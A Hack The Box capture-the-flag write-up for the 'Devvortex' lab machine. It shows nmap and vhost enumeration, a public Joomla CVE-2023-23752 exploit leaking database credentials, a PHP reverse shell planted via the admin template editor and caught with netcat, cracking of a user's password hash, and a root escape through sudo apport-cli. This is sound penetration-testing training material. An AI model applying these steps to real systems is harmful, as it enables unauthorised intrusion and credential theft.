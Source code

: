 # HTB - Devvortex

#### Ip: 10.10.11.242
#### Name: Devvortex
#### Rating: Easy

----------------------------------------------------------------------

![Devvortex.png](../assets/Devvortex.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-06 12:44 CST
Warning: 10.10.11.242 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.242
Host is up (0.075s latency).
Not shown: 65463 closed tcp ports (reset), 70 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
Lets add http://devvortex.htb to `/etc/hosts`

Checking out the site we find a page offering developer services:

devvortex_site.png

After not finding much during directory fuzzing, I scanned for vhosts and found dev.devvortex.htb, which I also added to `/etc/hosts`. 

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.242/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000022:   502        7 L      12 W       166 Ch      "dev" 
```

Looking for directories we find an /administrator directory:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ dirsearch -u http://dev.devvortex.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ryan/HTB/Devvortex/reports/http_dev.devvortex.htb/_24-03-06_13-27-57.txt

Target: http://dev.devvortex.htb/

[13:27:57] Starting: 
[13:28:09] 403 -  564B  - /%2e%2e;/test
[13:28:17] 403 -  564B  - /admin/.config
[13:28:21] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
```

Heading to this directory we see the site is running Joomla:

devvortex_admin.png

Looking for Joola exploit I find this information disclosure vulnerability: https://github.com/Acceis/exploit-CVE-2023-23752

### Exploitation

I can run the script and retrieve the usernames logan and lewis as well as a password for lewis:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ ruby joomla_disclosure.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

I am able to use Lewis' credentials to login to the Joomla site.

devvortex_login.png

Because we have administrator access, we should have an easy time getting remote code execution from here. Lets go to System > Templates > Administrator Templates > index.php and overwrite the file with PentestMonkey's php-reverse-shell.php. Now when we refresh the page and navigate back to the site, we catch a shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 41584
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 17:00:23 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
devvortex
```

Trying to grab the flag in Logan's home folder we get a permission denied:

```
www-data@devvortex:/home/logan$ cat user.txt
cat: user.txt: Permission denied
```

However the credentials we discovered earlier were actually to the joomla mysql DB, so lets login on the target and see if we can discover any other credentials:

devvortex_logan_hash.png

Nice, looks like we've found a hash for user logan. Lets try cracking it:

devvortex_john.png

John was able to crack the bcrypt hash for us: `logan:tequieromucho`

We can now `su logan` and grab the user.txt flag:

```
www-data@devvortex:/home/logan$ su logan
Password: 
logan@devvortex:~$ whoami
logan
```

devvortex_user.png

### Privilege Escalation

Running `sudo -l` to see if I can run anyhting with elevated permissions I find:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This is interesting. Looking for exploits I find if the program is using the `less` command, I can drop into a root shell.

First we run:
```
sudo /usr/bin/apport-cli --file-bug
```

Then select 1, and then 2. You will be prompted to input any key.

Next we can select `V` which will open up a terminal as root. from there we can declare `!/bin/bash` and drop into a root shell.

We can now grab the final flag:

devvortext_root.png

Thanks for following along!

-Ryan

-------------------------------------------
